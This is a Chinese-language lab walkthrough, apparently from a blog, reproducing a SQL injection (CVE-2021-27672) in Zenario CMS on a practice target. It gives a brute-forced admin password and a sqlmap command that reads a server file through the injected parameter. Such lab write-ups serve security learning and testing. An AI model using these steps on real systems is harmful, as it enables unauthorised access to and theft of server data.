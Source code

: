 ```yaml
---
title: CVE-2021-27672【SQL 注入 & XSS】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'SQL 注入'
  - 'XSS'
---
```


## 1. 漏洞介绍

Zenario CMS v8.8.52729 admin_boxes.ajax.php 存在sql注入漏洞

[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2021-27672)

[Authenticated Blind & Error based SQL injection and Reflected XSS on Zenario 8.8.52729 CMS (CVE-2021–27672, CVE-2021–27673) | by Avinash | Medium](https://deadsh0t.medium.com/blind-error-based-authenticated-sql-injection-on-zenario-8-8-52729-cms-d4705534df38)

## 2. 漏洞复现

登录密码爆破可得：admin/Aa123456

![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310021828223.png)

注，点击 HTML page 前开启抓包

用 sqlmap 注入即可

```shell
python sqlmap.py -r post.txt -p cID --batch --random-agent  --file-read "/flag"
```

![2.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310021834796.png)

![3.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202310021834573.png)

XSS 演示参见 [Authenticated Blind & Error based SQL injection and Reflected XSS on Zenario 8.8.52729 CMS (CVE-2021–27672, CVE-2021–27673) | by Avinash | Medium](https://deadsh0t.medium.com/blind-error-based-authenticated-sql-injection-on-zenario-8-8-52729-cms-d4705534df38)
